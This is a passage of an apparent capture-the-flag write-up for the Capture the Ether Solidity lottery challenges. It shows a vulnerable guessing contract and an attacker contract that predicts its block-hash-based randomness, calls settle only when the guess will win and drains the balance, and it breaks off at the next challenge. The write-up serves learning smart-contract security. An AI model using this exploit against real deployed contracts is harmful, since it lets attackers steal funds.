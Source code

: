 [Script](./scripts/lotteries/GuessTheNewNumberChallenge.ts) | [Test](./test/lotteries/GuessTheNewNumberChallenge.spec.ts)

### Predict the future

The guess answer now has to be set beforehand, and then settled on a new tx, as it requires to be on a future block

```solidity
function lockInGuess(uint8 n) public payable {
  guess = n;
  settlementBlockNumber = block.number + 1;
}

function settle() public {
  require(block.number > settlementBlockNumber);
  uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
}

```

The "random" answer can _only_ be a number between `0-9` because of the `% 10`.

With this in mind we can exploit it:

1. Call `lockInGuess` with any number `0-9`
2. Create an attacker contract that calculates when that number is equal to the answer
3. Call `settle` from the attack contract only if it equals our initial random guess

This way we only bet when we know we will win :)

```solidity
function lockInGuess() public payable {
  challenge.lockInGuess.value(1 ether)(0); // Guess will be 0
}

function attack() public {
  uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
  require(answer == 0); // Put your guess here

  challenge.settle();
  msg.sender.transfer(address(this).balance);
}

```

[Script](./scripts/lotteries/PredictTheFutureChallenge.ts) | [Test](./test/lotteries/PredictTheFutureChallenge.spec.ts)

### Predict the block hash

We now have to predict the hash of a future block, which will not be possible to brute-force:

```solidity
function lockInGuess(bytes32 hash) public payable {
  guess = hash;
  settlementBlockNumber = block.number + 1;
}

function settle() public {
  require(block.number > settlementBlockNumber);
  bytes32 answer = block.blockhash(settlementBlockNumber);
}

```
